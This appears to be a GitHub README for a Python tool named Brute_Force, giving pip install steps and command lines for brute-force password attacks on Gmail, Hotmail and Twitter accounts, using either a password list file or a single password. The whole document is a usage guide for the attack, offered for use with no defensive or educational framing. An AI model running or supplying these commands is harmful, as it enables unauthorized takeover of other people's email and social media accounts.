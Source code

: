 # Brute_Force
![alt text](https://6.top4top.net/p_129299z0c1.png)
![alt text](https://1.top4top.net/p_12925zyk22.png)


# install :
```bash
pip install proxylist

pip install mechanize
```


Usage:

# BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


# BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


# BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
```
